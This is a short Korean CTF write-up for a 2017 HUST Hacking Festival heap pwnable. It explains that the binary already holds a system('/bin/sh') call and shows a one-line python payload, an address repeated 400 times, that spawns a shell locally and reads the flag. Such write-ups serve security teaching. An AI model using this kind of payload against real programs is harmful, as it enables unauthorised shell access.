

## No.14 Pwnable Do It Your Heap Ex[100]

**점수:** 100

**분야:** Pwnable

**제목:** Do It Your Heap Ex

**Description:**

> I want you to analyze the heap.
> 
> nc 223.194.105.182 29001
> Download : https://goo.gl/qGdwj0

문제의 출제 의도는 UAF를 이용하라는 것으로 추정되나 실제 바이너리를 분석해보면 UAF를 쓰기도 전에 쉘을 딸 수 있다. 

바이너리 자체에 system(“/bin/sh”); 호출을 구현해놨기 때문에 한 줄로 익스플로잇이 가능하다. 

대회 당시 자료를 미처 준비하지 못해 로컬에서 공격한 기록을 남긴다.



```
$ (python -c "print '\x80\x89\x04\x08' * 400"; cat) | ./challenge
 
                                (생략)
 
Hello! Welcome to 2017 HUST Hacking Festival.
 
This is a problem wtih heap exploits.
You should use "UAF" techniques.
 
We will allocate memory for the heap area.
 
First, Input anythings :
cat flag
THIS IS THE FLAG
```
